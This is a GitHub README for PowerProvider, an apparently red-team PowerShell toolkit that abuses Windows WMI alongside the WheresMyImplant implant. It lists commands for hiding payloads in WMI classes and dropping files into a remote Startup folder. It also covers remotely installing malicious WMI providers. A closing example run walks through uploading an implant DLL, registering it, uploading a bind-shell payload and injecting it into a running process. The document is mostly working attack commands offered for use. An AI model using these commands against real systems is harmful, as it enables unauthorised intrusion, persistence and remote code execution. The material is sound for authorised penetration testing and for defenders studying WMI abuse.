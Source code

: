 ## PowerProvider

PowerProvider: A toolkit to manipulate WMI. This toolkit provides functionality to:
* Duplicate Classes
* Create static classes for file storage
* Remote Install WMI Providers

Primarily used in conjunction with WheresMyImplant - https://github.com/0xbadjuju/WheresMyImplant/

### Methods
#### Class Duplication
  * **Invoke-WMIDuplicateClass**
    * Invoke-WMIDuplicateClass -TargetClassName Win32_Process -DuplicateClassName Win32_Create -ComputerName $ComputerName -Credential $Credential

#### File Transfer
  * **Invoke-WMIUpload**
    * $Destination = "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp"
    * Invoke-WMIUpload -PayloadPath C:\Payload.exe -Destination $Destination -PayloadName Payload.exe -ComputerName  $ComputerName -Credential $Credential
    * Invoke-WMIUpload -PayloadPath C:\Payload.exe -Inject -PayloadName Payload.exe -ComputerName  $ComputerName -Credential $Credential
  * **Invoke-WMIRemoteExtract**
    * $Destination = "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp"
    * Invoke-WMIRemoteExtract -PayloadName Payload.exe -Destination $Destination -ComputerName  $ComputerName -Credential $Credential

#### File Storage
  * **New-WMIFSClass**
    * New-WMIFSClass -ComputerName $ComputerName -Credential $Credential
  * **ConvertTo-Base64**
    * $File = ConvertTo-Base64 -FileName C:\Payload.exe -Inject
  * **Invoke-InsertFileThreaded**
    * Invoke-InsertFileThreaded -EncodedText $File -FileName Payload.exe -ComputerName $ComputerName -Credential $Credential -Verbose
  * **Invoke-RetrieveFile**
    * $File = Invoke-RetrieveFile -FileName C:\Payload.exe -ComputerName $ComputerName -Credential $Credential
  * **ConvertFrom-Base64**
    * $FileBytes = ConvertFrom-Base64 -ComputerName $ComputerName -Credential $Credential
  * **ConvertTo-EncryptedText**
    * $EncryptedString = ConvertTo-EncryptedText -PlaintextString $File
  * **ConvertFrom-EncryptedText**
    * $File = ConvertFrom-EncryptedText -EncryptedString $EncryptedString
    
#### Provider Install
  * **Install-WMIProviderInstallUtil**
    * Install-WMIProviderInstallUtil -LibraryLocation C:\Windows\System32\wbem\WheresMysImplant.dll -ComputerName $ComputerName -Credential $Credential
  * **Install-WMIProviderPowerShell**
    * Install-WMIProviderPowerShell -LibraryLocation C:\Windows\System32\wbem\WheresMysImplant.dll -ComputerName $ComputerName -Credential $Credential
  * **Install-WMIProviderExtention**
    * Install-WMIProvider -LocalLibraryLocation C:\WheresMyImplant.dll -ComputerName $ComputerName -Credential $Credential
  * **Uninstall-WMIProviderExtention**
    * Uninstall-WMIProvider -ProviderName WheresMyImplant -ClassName Win32_Implant C:\WheresMy -ComputerName $ComputerName -Credential $Credential

#### Example Run

**Upload the provider to the target host** <br/>
Invoke-WMIUpload -PayloadPath C:\WheresMyImplant.dll -PayloadName WheresMyImplant.dll -Destination C:\Windows\System32\wbem -ComputerName $ComputerName -Credential $Credential -Verbose

**Register the provider on the target host** <br/>
Install-WMIProviderExtention -LocalLibraryLocation C:\WheresMyImplant.dll -ComputerName $ComputerName -Credential $Credential -Verbose

**Upload the payload to the target host** <br/>
Invoke-WMIUpload -PayloadPath C:\bind64.exe -PayloadName bind64.exe -ComputerName $ComputerName -Credential $Credential -Inject -Verbose

**Get the argumentlist order** <br/>
(Get-WmiObject -List -Class Win32_Implant -ComputerName $ComputerName -Credential $Credential).Methods["InjectPeWMIFS"].InParameters

**Find a process to inject into** <br/>
Get-WmiObject Win32_Process | Select Name, ProcessId

**Inject into process and run payload** <br/>
Invoke-WmiMethod -Class Win32_Implant -Name InjectPeWMIFS -ArgumentList "bind64.exe", "", 4596, "WMIFS" -ComputerName $ComputerName -Credential $Credential

### Author, Contributors, and License

##### Author: Alexander Leary (@0xbadjuju), NetSPI - 2017

##### License: BSD 3-Clause

##### Required Dependencies: None
